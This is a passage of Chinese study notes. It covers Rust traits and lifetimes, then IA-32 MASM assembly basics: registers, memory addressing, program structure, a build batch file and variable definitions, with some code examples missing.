}
impl<T> Point<T> {
fn x(&self) -> &T {
&self.x
}
}
fn main() {
let p = Point { x: 1, y: 2 };
println!("p.x = {}", p.x());
}
特性¶
特性（trait）概念接近于 Java 中的接口（Interface），但两者不完全相同。特性与接口相同的地方在于它们都是一种行为规范，可以用于标识哪些类有哪些方法。
特性在 Rust 中用 trait 表示：
Descriptive 规定了实现者必需有 describe(&self) -> String 方法。
我们用它实现一个结构体：
struct Person {
name: String,
age: u8
}
impl Descriptive for Person {
fn describe(&self) -> String {
format!("{} {}", self.name, self.age)
}
}
格式为impl <特性名> for <所实现的类型名>
Rust 同一个类可以实现多个特性，每个 impl 块只能实现一个。
默认特性¶
这是特性与接口的不同点：接口只能规范方法而不能定义方法，但特性可以定义方法作为默认方法，因为是"默认"，所以对象既可以重新定义方法，也可以不重新定义方法使用默认的方法：
trait Descriptive {
fn describe(&self) -> String {
String::from("[Object]")
}
}
struct Person {
name: String,
age: u8
}
impl Descriptive for Person {
fn describe(&self) -> String {
format!("{} {}", self.name, self.age)
}
}
fn main() {
let cali = Person {
name: String::from("Cali"),
age: 24
};
println!("{}", cali.describe());
}
运行结果为
Cali 24
如果我们将 impl Descriptive for Person 块中的内容去掉，那么运行结果就是：
[Object]
特性做参数¶
很多情况下我们需要传递一个函数做参数，例如回调函数、设置按钮事件等。在 Java 中函数必须以接口实现的类实例来传递，在 Rust 中可以通过传递特性参数来实现：
任何实现了 Descriptive 特性的对象都可以作为这个函数的参数，这个函数没必要了解传入对象有没有其他属性或方法，只需要了解它一定有 Descriptive 特性规范的方法就可以了。当然，此函数内也无法使用其他的属性与方法。
特性参数还可以用这种等效语法实现：
这是一种风格类似泛型的语法糖，这种语法糖在有多个参数类型均是特性的情况下十分实用：fn output_two<T: Descriptive>(arg1: T, arg2: T) {
println!("{}", arg1.describe());
println!("{}", arg2.describe());
}
注意：仅用于表示类型的时候，并不意味着可以在 impl 块中使用。
复杂的实现关系可以使用 where 关键字简化，例如：
可以简化成：Example
trait Comparable { fn compare(&self, object: &Self) -> i8; }
fn max
impl Comparable for f64 { fn compare(&self, object: &f64) -> i8 { if &self > &object { 1 } else if &self == &object { 0 } else { -1 } } }
fn main() { let arr = [1.0, 3.0, 5.0, 4.0, 2.0]; println!("maximum of arr is {}", max(&arr)); }
特性做返回值¶
特性做返回值格式如下：
但是有一点，特性做返回值只接受实现了该特性的对象做返回值且在同一个函数中所有可能的返回值类型必须完全一样。比如结构体 A 与结构体 B 都实现了特性 Trait，下面这个函数就是错误的：
生命周期¶
Rust 生命周期机制是与所有权机制同等重要的资源管理机制。
之所以引入这个概念主要是应对复杂类型系统中资源管理的问题。
引用是对待复杂类型时必不可少的机制，毕竟复杂类型的数据不能被处理器轻易地复制和计算。
但引用往往导致极其复杂的资源管理问题，首先认识一下垂悬引用：
引用必须在值的生命周期以内才有效。
一直以来我们都在结构体中使用 String 而不用 &str，我们用一个案例解释原因：
Example
fn main() { let r; { let s1 = "rust"; let s2 = "ecmascript"; r = longer(s1, s2); } println!("{} is longer", r);
} 这段程序中虽然经过了比较，但 r 被使用的时候源值 s1 和 s2 都已经失效了。当然我们可以把 r 的使用移到 s1 和 s2 的生命周期范围以内防止这种错误的发生，但对于函数来说，它并不能知道自己以外的地方是什么情况，它为了保障自己传递出去的值是正常的，必选所有权原则消除一切危险，所以 longer 函数并不能通过编译。
生命周期注释¶
生命周期注释是描述引用生命周期的办法。
虽然这样并不能够改变引用的生命周期，但可以在合适的地方声明两个引用的生命周期一致。
生命周期注释用单引号开头，跟着一个小写字母单词：
fn longer<'a>(s1: &'a str, s2: &'a str) -> &'a str {
if s2.len() > s1.len() {
s2
} else {
s1
}
}
fn main() {
let r;
{
let s1 = "rust";
let s2 = "ecmascript";
r = longer(s1, s2);
println!("{} is longer", r);
}
}
我们需要用泛型声明来规范生命周期的名称，随后函数返回值的生命周期将与两个参数的生命周期一致
静态生命周期¶
生命周期注释有一个特别的：'static 。所有用双引号包括的字符串常量所代表的精确数据类型都是 &'static str ，'static 所表示的生命周期从程序运行开始到程序运行结束。
汇编学习笔记 ↵
计算机的硬件组成结构¶
约 3052 个字 预计阅读时间 11 分钟
计算机有三大硬件组成部分
-
CPU:包含运算器，控制器，寄存器
-
主存储器
-
I/O接口：辅助存储器，输入设备，输出设备
而汇编程序员将硬件抽象为
-
寄存器
-
存储器地址
-
输入输出地址
寄存器(Register)¶
Info
寄存器是处理器内部的高速存储单元,用于暂时存放程序执行过程中的代码和数据
大致可以分成两类
-
透明寄存器：对应用人员不可见，不能编程直接控制
-
可编程（programmable）寄存器：具有引用名称，可以直接供编程使用
可编程寄存器又分为通用寄存器和专用寄存器
处理器通用寄存器¶
处理器最常使用整数通用寄存器，可以用于保存整数数据，地址等
32位的IA-32处理器具有8个32位通用寄存器
- EAX，EBX，ECX，EDX，ESI，EDI，EBI，ESP
| Register | English Name | Chinese Name |
|---|---|---|
| EAX | Accumulator | 累加器 |
| EBX | Base Address | 基址寄存器 |
| ECX | Counter | 计数器 |
| EDX | Data | 数据寄存器 |
| ESI | Source Index | 源变址寄存器 |
| EDI | Destination Index | 目的变址寄存器 |
| EBP | Base Pointer | 基址指针 |
| ESP | Stack Pointer | 堆栈指针 |
源自16位8086处理器的8个16位通用寄存器（E为扩展，即extend）
- AX，BX，CX，DX，SI，DI，BP，SP，前四个寄存器可分高低字节，形成8个8位的通用寄存器：AH,AL,BH,BL,CH,CL,DH,DL
这使得这些寄存器既是一个整体，又可以独立使用
图示
处理器专用寄存器¶
专用寄存器主要有三类，标志寄存器，指令指针寄存器，段寄存器
标志（Flag）寄存器¶
什么是标志
标志体现了某种工作状态，有些处理器标志用于反映指令执行结果（加减是否进位借位，数据是否为0，正负），有些处理器标志用于控制指令执行形式（处理器是否单步操作，是否响应外部中断）
各种标志组合在一个专用寄存器形成标志寄存器，8086支持16位的标志寄存器FLAGS
IA-32处理器形成32位EFLAGS标志寄存器
-
状态标志：记录指令执行结果的辅助信息，是处理器最基本的标志
- 加减运算和逻辑运算指令主要设置他们
- 其他有些指令的执行也会相应地设置他们
- 处理器主要使用其中5个构成各种条件（分支指令判断这些条件实现程序分支）
-
控制标志： 方向标志DF，仅用于串操作指令
- 系统标志： 控制操作系统或核心管理程序的操作方式
指令指针寄存器EIP¶
用于保存 将要执行的指令在主存的存储器地址 ，相当于一个指向将要执行指令的指针
-
在顺序执行时会自动增量，指向下一条指令
-
分支，调用等操作时执行控制转移指令修改，引起程序到指定的指令执行
-
在出现中断或者异常时被处理器赋值而相应改变
段寄存器¶
存储空间分段管理
“段”是保存相关代码或者数据的一个主存区域
应用程序主要涉及三类基本段
-
代码段（Code Segment） 存放程序的可执行代码（处理器指令）
-
数据段（Data Segment） 存放全局变量等程序所用的数据
-
堆栈段（Stack Segment） 这是程序所需要的特殊区域，用于存放返回地址，临时变量等
段寄存器表明某个段在主存中的位置
根据各个段的首字母缩写来给相应的寄存器命名，共有6个16位寄存器
| 代码段 | CS |
|---|---|
| 堆栈段 | SS |
| 数据段 | DS，ES（Extra segment），FS，DS |
代码段的当前指令地址
- 段基地址：由代码段寄存器CS保存
- 偏移地址：由指令指针寄存器EIP保存
堆栈段的当前栈顶地址
- 段基地址：堆栈段寄存器SS保存
- 堆栈指针寄存器ESP保存
数据段的操作数地址
- 段基地址：数据段寄存器DS指示，有时候也用ES，FS，GS指示
- 偏移地址：没有专门的寄存器，由存储器寻址方式计算出的有效地址EA指示
编程采用的逻辑地址为 段基地址:偏移地址 的组合
- 段基地址：在主存中的起始地址
- 偏移地址：距离段基地址的便宜量
Info
总结
寄存器分为不可编程的 透明寄存器 和 可编程寄存器 ，可编程寄存器又可以进行分类
| 分类 | 类型 | 寄存器 |
|---|---|---|
| 通用寄存器 | 32位通用寄存器 | EAX EBX ECX EDX ESI EDI EBP ESP |
| 16位通用寄存器 | AX BX CX DX SI DI BP SP | |
| 8位通用寄存器 | AH AL BH BL CH CL DH DL | |
| 专用寄存器 | 标志寄存器 | EFLAGS |
| 指令指针寄存器 | EIP | |
| 段寄存器 | CS DS SS ES FS GS |
存储器组织¶
计算机硬件组成结构中的主存储器容量很大，被划分为许多存储单元，每个存储单元被编排一个号码，即存储单元地址，称为 存储器地址（Memory Address）
每个存储单元以字节为基本存储单位
- 即字节编址（Byte Addressable）
- 一个字节（Byte）等于8个二进制位（Bit）,两个字节称为字，两个字称为双字
- IA-32有32位地址，可以访问 4GB 内存
存储器的物理地址¶
处理器连接的物理存储器使用物理地址
- 从0开始顺序编排，直到其支持的最大存储单元
存储管理单元和存储模型¶
高性能处理器集成有存储管理单元MMU，利用它进行主存储器空间管理
存储管理单元（Memory Management Unit, MMU）是计算机系统中的一个硬件组件，负责管理计算机的内存使用情况。它在CPU与物理内存（RAM）之间起到桥梁作用，主要职责有：
-
地址转换（虚拟内存到物理内存映射） 程序并不直接寻址物理存储器 MMU将程序使用的虚拟地址（逻辑地址）转换为物理地址。这种地址转换通常是通过分页（paging）或分段（segmentation）机制来实现的。每个进程在自己的虚拟地址空间中运行，这样可以使多个进程共存于系统内存中而互不干扰。
-
内存保护 MMU可以设置不同的权限（如读、写、执行）来保护内存区域，防止一个进程访问另一个进程的内存或操作系统内存，保障系统的安全性和稳定性。
-
内存分配与回收 MMU协助操作系统在程序运行时分配和释放内存。它帮助管理物理内存的分配，以确保内存高效利用并减少碎片化。
-
分页管理 MMU通过分页机制，将程序的虚拟内存划分为固定大小的块（称为页面），并将这些页面映射到物理内存的实际位置。这样可以有效地管理内存，并支持虚拟内存技术，使程序能够使用超过物理内存大小的内存空间。
-
缓存管理 在一些高级系统中，MMU也参与管理CPU缓存（如L1、L2缓存）与内存之间的数据交换。它确定哪些数据应该留在缓存中以提高访问速度。
-
异常处理 当程序试图访问无效的地址（如没有映射到物理内存的虚拟地址）时，MMU会产生一个异常（通常称为页面错误或缺页中断），通知操作系统处理这个情况，如分配新的内存页或从磁盘加载需要的数据。
IA-32 处理器的存储模型
- 平展存储模型（Flat Memory Model）：存储器是一个连续的4GB线性地址空间
- 段式存储模型（Segmented Memory Model）
- 存储器由一组独立的地址空间组成：段（Segment）
- 每个段都可以达到4GB
- 实地址存储模型（Real-address Memory Model）
- 8086处理器的存储模型（最大1MB）
- 段式存储模型的特例（段最大64KB）
Example
存储器空间可以分段管理，采用逻辑地址指示
举个例子，有一幢楼，3层，每一层有10个房间，首先我们从第一层01开始编号到最后一个房间30
对于第二层第五个房间，物理地址是绝对地址:15，但是为了方便，它被称为205，这就是它的逻辑地址（相对地址）
三大地址的关系
程序员编程时采用逻辑地址，操作系统利用存储管理单元MMU将逻辑地址映射成线性地址（虚拟地址），处理器使用物理地址访问主存储器芯片
逻辑地址（Logical Address）
- 定义: 逻辑地址是程序员在编写程序时使用的地址，由CPU在执行程序时生成。
- 特点: 逻辑地址是相对于程序的起始地址的偏移量，与实际的物理内存位置无关。
- 别名: 逻辑地址也被称为 虚拟地址（Virtual Address） 。在每个进程的上下文中，逻辑地址是唯一的。
- 使用: 逻辑地址是在程序代码中使用的，比如指针或数组索引。它们是由编译器生成的，并且不会直接对应到物理内存的具体位置。
线性地址（Linear Address）
- 定义: 线性地址是将逻辑地址转换成物理地址之前的一个中间地址。它是经过分段（segmentation）计算后的地址。
- 特点: 线性地址是通过把逻辑地址和段寄存器（如CS、DS等）中的段基址相加得到的。
- 使用: 在有些体系结构中，线性地址可能直接等于物理地址（如无分页机制的情况下），但是在大多数现代处理器中，线性地址通过分页机制进一步转换为物理地址。
物理地址（Physical Address）
- 定义: 物理地址是内存单元在计算机实际物理内存（RAM）中的位置。它是CPU最终使用的实际地址。
- 特点: 物理地址由线性地址经过分页（paging）机制转换而来，是指向实际内存芯片的地址。
-
使用: 物理地址是由内存控制器使用的，用于访问实际的物理内存位置。
-
逻辑地址到线性地址的转换（分段）:
-
逻辑地址由程序生成，分为段选择器和段内偏移量。段选择器指向内存段描述符（存储在段寄存器中），而偏移量指向段内的具体位置。
- MMU使用段选择器查找段基址，然后将段基址与偏移量相加，生成线性地址。
- 公式:
$$ \text{线性地址} = \text{段基址} + \text{逻辑地址中的偏移量} $$
-
线性地址到物理地址的转换（分页）:
-
线性地址进一步通过分页机制转换为物理地址。分页机制将线性地址划分为多个固定大小的页面，线性地址中的页号部分用于查找页表（Page Table），得到物理页帧号。
- 线性地址的页内偏移量部分与物理页帧号组合形成物理地址。
- 公式:
$$ \text{物理地址} = \text{物理页帧号} + \text{页内偏移量}$$
- 逻辑地址 是程序员或编译器使用的地址，描述的是虚拟内存中的位置。
- 线性地址 是经过分段机制转换后的地址，是逻辑地址与段基址之和。
- 物理地址 是存储器中实际访问的位置，由线性地址经过分页机制转换得到。
汇编程序格式¶
约 3089 个字 83 行代码 预计阅读时间 12 分钟
处理器指令格式¶
程序由程序设计语言编写，由 指令 构成，指令 由 操作码 和 操作数（地址码） 构成，操作码（Opcode） 表明处理器执行的操作， 操作数（Oprand） 是参与操作的数据对象
最基本的数据传送指令--MOV(move)
传送指令的助记符：MOV
类似于高级语言的赋值语句，将数据从一个位置 传送 到另一个位置
例如
src为源操作数，是被传送的数据或者数据所在的位置
dest为目的操作数，是数据将要传送到的位置
IA-32 处理器采用可变长度指令格式
-
操作码
- 可选的指令前缀（用于扩展指令功能，一般0至4字节
- 1至3字节的主要操作码
-
操作数
- 可选的寻址方式域
- 可选的位移量
- 可选的立即数
Example
汇编语言语句格式¶
源程序由语句组成，通常一个语句占一行，一个语句不超过132个字符，4个部分
语句的种类
执行性语句 ：表达处理器指令，实现功能，格式为
标号: 硬指令助记符 操作数,操作数 ;注释
说明性语句 : 表达伪指令，控制汇编方式 格式为
名字 伪指令助记符 参数,参数,... ;注释
在汇编语言中，标号（Label）和 名字（Name）都是用于标识特定内存位置、代码段或数据的符号。
1. 标号（Label）¶
标号 通常用于标记代码中的特定位置，通常是处理器指令的逻辑地址。指示分支，循环等程序的目的地址。标号在汇编程序中有两个主要用途：
-
跳转目标 ：标号常用于控制程序的流，例如条件跳转（
JMP、JE、JNE等）或循环结构中，标号表示目标地址，指明程序应跳转到的特定位置。 -
函数或过程的入口 ：标号也常用于标记一个函数或过程的起始地址，以便程序能够正确调用。
2. 名字（Name）¶
名字 通常用于数据段中，表示变量、常量或其他数据元素的名称。名字便于程序员在编写代码时识别和引用这些数据。
- 数据定义 ：名字用于在数据段中定义和标识数据项。
- 指针或偏移量 ：名字可用来表示特定数据项在内存中的位置或偏移量，以便在程序中引用。
Example
语法：
例如：
- 标号 用于标识代码位置（如跳转目标）。
- 名字 用于标识数据（如变量、常量）。
标识符¶
标号和名字都属于标识符，标识符由程序员自己定义，跟高级语言中的变量定义类似，不能以数字开头，一个源程序中，用户定义的每个标识符必须唯一，也不能是保留字（reserve word）
保留字
保留字（Reserved Word）是汇编语言（以及大多数编程语言）中具有特殊意义的单词。这些单词被编译器或汇编器预先定义和保留，不能用作用户自定义的标识符（如变量名、标号或函数名），因为它们已经用于特定的语法结构或操作
在汇编语言中，常见的保留字有以下几种类型：
指令操作码：用于表示具体的处理器指令，如：
MOV、ADD、SUB、MUL、DIV、JMP、CMP、CALL、RET 等。
伪指令（汇编指令）：用于指示汇编器在汇编过程中执行的操作，不直接生成机器指令，如：
DB（Define Byte）、DW（Define Word）、DD（Define Double Word）、ORG（Origin）、END（End of Program）、EQU（Equate）等。
寄存器名：用于表示处理器内部的寄存器，如：
EAX、EBX、ECX、EDX（通用寄存器）、CS、DS、SS、ES（段寄存器）等。
数据类型：用于表示数据的类型或大小，如：
BYTE、WORD、DWORD、QWORD、TBYTE 等。
条件码和控制结构：用于程序流程控制，如：
IF、ELSE、ENDIF、LOOP、WHILE、BREAK 等。
助记符¶
助记符是帮助记忆指令功能的符号，主要分硬指令助记符和软指令助记符
在汇编语言中，硬指令助记符（也称为 机器指令助记符 ）和 软指令助记符 （也称为 伪指令助记符 ）是两种不同类型的指令，它们用于不同的目的。
硬指令助记符（机器指令助记符）¶
硬指令助记符 （Machine Instruction Mnemonics）是直接对应于处理器支持的机器语言指令的汇编语言符号。每一个硬指令助记符表示一条由处理器硬件直接执行的具体操作。硬指令助记符是汇编语言的核心部分，它们被翻译成机器码，直接由计算机的 CPU 执行。
特点
- 直接映射到机器代码：硬指令助记符是汇编程序中最接近硬件的部分，直接对应于 CPU 指令集。
- 被处理器直接执行：这些指令是硬件支持的，可以被 CPU 直接执行。
- 执行特定的操作：如数据传送、算术操作、逻辑操作、跳转、函数调用等。
常见的硬指令助记符
- 数据传送指令：
MOV、PUSH、POP等。 - 算术指令：
ADD、SUB、MUL、DIV等。 - 逻辑指令：
AND、OR、XOR、NOT等。 - 控制流指令：
JMP、JE、JNE、CALL、RET等。
Example
软指令助记符（伪指令助记符）¶
软指令助记符 （Pseudo-Instruction Mnemonics）或 伪指令（Pseudo-Instructions）并不是处理器的真实指令。它们是汇编器理解和执行的特殊指令，用来辅助程序开发和编译过程，如定义数据、分配存储、设置程序位置等。这些指令在汇编过程中执行，不会被翻译成机器代码。
特点
- 不对应机器代码 ：软指令助记符是汇编器在汇编时使用的指令，不会被转换为直接的机器指令。
- 用于编译控制 ：这些指令帮助控制汇编过程，比如定义常量、变量、内存布局等。
- 用于结构化编程 ：定义宏、设置条件编译等。
常见的软指令助记符
- 数据定义指令：
DB（Define Byte）、DW（Define Word）、DD（Define Double Word）等。 - 编译控制指令：
ORG（Origin，设置代码的起始地址）、END（结束程序）等。 - 宏定义和使用指令：
MACRO、ENDM等。 - 条件编译指令：
IF、ELSE、ENDIF等。
Example
操作数和参数
操作数 ：表示参与操作的对象，跟在处理器指令后面
参数 ：伪指令的参数，可以有多个，参数之间用逗号分隔
汇编程序基本框架¶
需要注意的地方
不同汇编语言，不同汇编器，其结构和语法有所不同，我学习的是基于 MASM 的 IA-32 汇编语言
在使用 MASM（Microsoft Macro Assembler）编写 IA-32 汇编语言程序时，我们通常会遵循一个标准的程序框架。MASM 是微软提供的汇编器，主要用于 Windows 平台，因此其语法和结构会更贴近 Windows 的程序编写风格。MASM 提供了许多宏和指令来简化编写汇编程序的过程。
基于 MASM 的 IA-32 汇编语言程序框架¶
一个典型的 MASM 程序框架通常包括以下部分：
- 数据段（.data）：定义程序中的已初始化数据（如常量、字符串、变量等）。
- 代码段（.code）：包含程序的指令（实际操作代码）。
- 栈段（.stack）：定义程序运行时使用的堆栈空间（通常为可选项）。
- 入口点（main 或 start）：程序的入口点，通常通过
main或start标签来定义。 - 结束指令（END）：指示程序的结束点。
示例：基于 MASM 的 IA-32 汇编程序框架
; eg0101.asm - 程序名称
include io32.inc ; 包含头文件 io32.inc
.data ; 数据段
msg byte 'Hello, Assembly!', 13, 10, 0 ; 定义一个字符串变量 msg，以回车（13）、换行（10）和结束符（0）结尾
.code ; 代码段
start: ; 程序执行起始位置
mov eax, offset msg ; 将 msg 的地址载入 eax 寄存器
call dispmsg ; 调用 dispmsg 函数，显示消息
exit 0 ; 正常退出程序
end start ; 程序结束，指定入口点为 start
程序解释
-
include io32.inc: 包含一个名为io32.inc的头文件，该文件包含常用的宏、函数声明或输入输出例程。例如，这里使用的dispmsg函数在io32.inc中定义的，用来在屏幕上显示字符串。 -
.data段: 数据段，用于定义数据（如变量、常量、字符串等）。在这里，定义了一个字符串msg，内容为 "Hello, Assembly!"，后面跟着回车（13）、换行（10）和字符串结束符（0）。 -
.code段: 代码段，包含程序的指令部分。程序从start标签开始执行。mov eax, offset msg: 将字符串msg的地址载入EAX寄存器。call dispmsg: 调用dispmsg函数，将msg的内容显示在屏幕上。exit 0: 正常退出程序，返回码为0。
-
end start: 告诉汇编器程序的结束，并指定程序从start标签开始
io32.inc
.nolist
;filename: io32.inc
;A include file used with io32.lib for Windows Console
.686
.model flat,stdcall
option casemap:none
includelib bin\kernel32.lib
ExitProcess proto,:DWORD
exit MACRO dwexitcode
invoke ExitProcess,dwexitcode
ENDM
;declare procedures for inputting and outputting charactor or string
extern readc:near,readmsg:near
extern dispc:near,dispmsg:near,dispcrlf:near
;declare procedures for inputting and outputting binary number
extern readbb:near,readbw:near,readbd:near
extern dispbb:near,dispbw:near,dispbd:near
;declare procedures for inputting and outputting hexadecimal number
extern readhb:near,readhw:near,readhd:near
extern disphb:near,disphw:near,disphd:near
;declare procedures for inputting and outputting unsigned integer number
extern readuib:near,readuiw:near,readuid:near
extern dispuib:near,dispuiw:near,dispuid:near
;declare procedures for inputting and outputting signed integer number
extern readsib:near,readsiw:near,readsid:near
extern dispsib:near,dispsiw:near,dispsid:near
;declare procedures for outputting registers
extern disprb:near,disprw:near,disprd:near,disprf:near
;declare I/O libraries
includelib io32.lib
.list
-
汇编选项设置：
.686: 指定使用 686 指令集（Pentium Pro 及以上）。.model flat,stdcall: 使用平坦内存模型和stdcall调用约定。option casemap:none: 禁用大小写映射，使得标识符是大小写敏感的。
-
库引用：
includelib bin\kernel32.lib: 引入 Windows API 的kernel32.lib库，该库包含常见的系统调用（如ExitProcess）。
-
宏定义：
exit MACRO dwexitcode: 定义了一个名为exit的宏，用于调用ExitProcess函数退出程序。- 该宏可以简化退出程序的代码，使得在程序中调用
exit宏时，可以直接传递一个退出代码。
-
外部函数声明：
extern声明：这些声明告诉汇编器，这些函数在其他地方定义（例如io32.lib库中），并且它们是near类型（即在相同的段中）。这些函数包括：- 字符或字符串的输入/输出：
readc、readmsg：用于读取字符或字符串。dispc、dispmsg、dispcrlf：用于显示字符、字符串和换行符。
- 二进制数的输入/输出：
readbb、readbw、readbd：用于读取字节、字和双字的二进制数。dispbb、dispbw、dispbd：用于显示字节、字和双字的二进制数。
- 十六进制数的输入/输出：
readhb、readhw、readhd：用于读取字节、字和双字的十六进制数。disphb、disphw、disphd：用于显示字节、字和双字的十六进制数。
- 无符号整数的输入/输出：
readuib、readuiw、readuid：用于读取字节、字和双字的无符号整数。dispuib、dispuiw、dispuid：用于显示字节、字和双字的无符号整数。
- 有符号整数的输入/输出：
readsib、readsiw、readsid：用于读取字节、字和双字的有符号整数。dispsib、dispsiw、dispsid：用于显示字节、字和双字的有符号整数。
- 寄存器的输出：
disprb、disprw、disprd、disprf：用于显示寄存器的值。
-
库文件包含：
includelib io32.lib: 包含io32.lib库文件，这个库文件实际上实现了这些extern声明的输入/输出函数。
用于一键运行的make文件
@echo off
REM make32.bat, for assembling and linking 32-bit Console programs (.EXE)
BIN\ML /c /coff /Fl /Zi %1.asm
if errorlevel 1 goto terminate
BIN\LINK32 /subsystem:console /debug %1.obj
if errorlevel 1 goto terminate
DIR %1.*
:terminate
@echo on
- 关闭命令回显，使批处理文件的命令不显示在控制台窗口中（除了显式打开回显的部分）。
REM是批处理文件中的注释命令，说明文件的用途：用于汇编和链接32位控制台程序。
- 调用
ML（Microsoft Macro Assembler）进行汇编：/c：只汇编，不链接。/coff：生成COFF（通用目标文件格式）。/Fl：生成源代码列表文件。/Zi：生成用于调试的完整符号信息。%1.asm：表示命令行传递的第一个参数，即汇编源文件的名称。
errorlevel) 是否大于或等于1（表示错误）。如果是，跳转到 :terminate 标签，结束批处理。
- 调用
LINK32（Microsoft 32-bit Linker）进行链接：/subsystem:console：指定子系统为控制台应用程序。/debug：生成调试信息。%1.obj：表示由上一条汇编命令生成的目标文件。
- 再次检查错误码。如果链接命令返回错误，跳转到
:terminate结束。
- 列出指定文件（如生成的可执行文件和其他相关文件）的详细信息。
:terminate是批处理文件的标签，表示一个跳转目标。@echo on打开命令回显。
这个批处理文件的作用是自动化汇编源代码并将其链接成32位的可执行程序，同时提供调试信息。批处理文件会在任一阶段（汇编或链接）发生错误时停止执行。
数据表示¶
约 1635 个字 25 行代码 预计阅读时间 6 分钟
常量表达¶
常量是程序使用的一个确定的数值，在汇编阶段就可以确定，直接编码于指令代码中，而不是保存在存储器中可变的变量
汇编语言支持多种常量的表达形式
常数¶
多种进制的表达:以后缀字母来区分（D，H，B分别对应10，16，2进制），10进制数可以不加，对于以字母A~F开头的十六进制常数，要加前导的0 以便于区分字母开头的标识符(AH是八位寄存器，0Ah是16进制数)
Example
| 十进制数 | 100，255D |
|---|---|
| 十六进制数 | 64H，0FFH |
| 二进制数 | 01101100b |
字符和字符串¶
用''或者""括起来的多个字符 ，每个字符的数值是对应的ASCII码值
Note
单引号，双引号没有什么区别，字符和字符串也没有什么本质上的区别
符号常量¶
允许使用标识符来表达一个数值，在高级程序设计语言中，=用于变量的定义，而在汇编语言中=用来定义符号常量，例如
Zero出现的位置都会被0替代
数值表达式¶
用运算符连结各种常量构成数据表达式，常用的算术运算符有加减乘除等，如果是地址表达式，那么只能加减，表示地址移动的若干的字节存储单元
变量定义¶
什么是变量
随程序运行会发生变化的数据，保存在可读可写的主存空间中，变量的实质是主存单元的数据，因而可以改变，变量需要事先定义才能使用，变量具有属性，方便应用
定义变量的格式
一般格式为
-
变量名：用户定义的标识符，需要满足定义标识符规则，表示首元素的逻辑地址，便于直接访问，但是，没有变量名并不影响变量的定义
-
伪指令助记符：例如
byte,word,dword,表示变量类型 -
初值表是用逗号分隔的一个或者多个参数，表示变量的初值（汇编中一个变量可以有多个变量值，类似于C语言中的数组）
- 可以是各种形式的常量
- 使用
?来表示初值不确定，即未赋初值，一半会存储为0 - 使用复制操作符
DUP来表示多个同样的数值重复次数 DUP(需要重复的参数)
主要的变量定义伪指令
BYTE：字节类型，分配一个或者多个字节单元，每个数据是8位字节量，对应C语言中的char类型。
WORD：字类型，分配一个或者多个字单元，每个数据是16位字量，对应C语言中的short类型。
DWORD：双字类型，分配一个或者多个双字单元，每个数据是32位双字量对应C语言中的long类型。
8位变量的定义¶
可以定义：
- 8位的无符号整数（0~255）
- 8位补码表示的有符号整数-128~+127
- 一个字符（ASCII码值）
- 压缩BCD码0~99
- 非压缩BCD码0~9
Example
bvar1是首元素0的逻辑地址，要想访问下一个元素需要bvar1+1
其数据段为
| 7FH |
| 00H |
| 80H |
| FFH |
| 80H |
00H(bvar1指向这里) |
16位和32位变量的定义¶
16位
- 16位无符号整数（0~65535）
- 16为补码表示的有符号整数（-32768~+32767）
- 16位段地址
- 16位偏移地址
32位
- 32位无符号整数\(0 \sim 2^{32}-1\)
- 32位补码表示的有符号整数\(-2^{31} \sim 2^{31}-1\)
- 32位逻辑地址
Example
要想访问下一个元素，需要wvar1+2
每一个元素都使用两个字节来表示
要想访问下一个元素，需要dvar1+4
每一个元素，使用四个字节来表示
变量应用¶
多字节数据的存储顺序¶
最小的存储单位是bit，最常用的存储单位是字节（Byte），一个存储单元保存一个字节量数据，对应一个存储器地址。
小端方式（little Endian）
- 高字节数据保存在高地址存储单元
- 低字节数据保存在低地址存储单元
大端方式（Big Endian）
- 高字节数据保存在低地址存储单元
- 低字节数据保存在高地址存储单元
Info
大端存储和小端存储两个名字来自《格列佛游记》关于如何打开一个鸡蛋的争论: How to open an egg,from the little end or the big end
80x86采用小段方式存储多字节数据
三个变量在主存中的存放方式是一样的对于bvar,由低到高依次存放四个字节的数据
| 数据段 |
|---|
| 38H |
| 32H |
| 31H |
| 39H |
wvar有两种方式存储
如果是大端存储
| 数据段 |
|---|
| 32H |
| 38H |
| 31H |
| 39H |
如果是小段存储
| 数据段 |
|---|
| 38H |
| 32H |
| 31H |
| 39H |
同理，dvar也有两种方式
Warning
大端方式和小端方式存储都是合理的，不存在哪种方式更好，谁对谁错之分
变量的地址属性¶
定义后的变量名具有两类属性
- 地址属性：首个变量所在的存储单元的逻辑地址，包含 段基地址 和 偏移地址
- 类型属性：变量定义的数据单位
通过地址操作符可以获得变量的地址属性值
[] |
括起的表达式作为存储器地址指针，整个相当于取括号里的地址的值 |
$ |
返回当前的偏移地址 |
OFFSET 变量名 |
返回变量名所在段的偏移地址 |
SEG 变量名 |
返回段基地址（实地址存储模型） |
Example
;数据段
bvar byte 12h, 34h
org $+10;bvar地址为00000000，当前地址为00000002H，相当于数据段的下一个变量从当前地址+10字节再开始
array word 1, 2, 3, 4, 5, 6, 7, 8, 9, 10
wvar word 5678h
arr_size = $ - array ;计算出当前地址到array地址一共占有多少字节
arr_len = arr_size / 2;计算出一共有多少内存空间
dvar dword 9abcdef0h
;代码段
mov al, bvar;相当于[bvar]取出第一个元素12H送到al
mov ah, bvar + 1;取出第二个，类似于数组的操作
mov bx, wvar[2];从wvar开始再+2，指向了dvar的最低字节F0，赋给了bx
mov ecx, arr_len; 将arr_len所代表的长度11传给ecx
mov edx, $ ; 将当前的（指令）地址传给edx，即代码段地址+偏移地址
mov esi, offset dvar;将dvar的数据段地址传递给esi，即数据段地址+22H
mov edi, [esi];将esi的值作为地址取出该地址的元素，即9abcdef0h
mov ebp, dvar;9abcdef0h
变量的类型属性¶
变量的类型属性表示变量定义的数据单位，BYTE，WORD，DWORD对应的类型值为1，2，4；即其所占的字节数
类型操作符
类型名 PTR 变量名，将变量名按照指定的类型使用TYPE 变量名返回占用字节空间的字量数值LENGTHOF 变量名:返回整个变量的数据项数SIZEOF 变量名:返回整个变量所占用的字节数
Example
在上例中，若有mov eax,dword ptr array，则是将array当作双字类型访问，会把00020001H传递给eax
寻址方式¶
约 376 个字 10 行代码 预计阅读时间 1 分钟
指令由操作码和操作数组成，操作码是处理器要执行哪种操作，用助记符表示；操作数是指令执行的参与者，是各种操作的对象，需要通过地址指示
需要通过地址访问数据或者指令
-
数据寻址：指令执行过程中，访问所需要操作的数据（操作数）
- 立即数寻址：数据在指令代码中，用于常量表达
- 寄存器寻址：数据在寄存器中，用寄存器名表示
- 存储器寻址：数据在主存中，用存储器地址代表
- I/O寻址：数据在外设（I/O设备）中，用I/O地址代表
-
指令寻址：一条指令执行后，确定执行的下一条指令的位置
立即数寻址¶
操作数紧跟操作码，是机器码的一部分
Note
操作数从指令代码中得到，即立即数（Immediate）
例
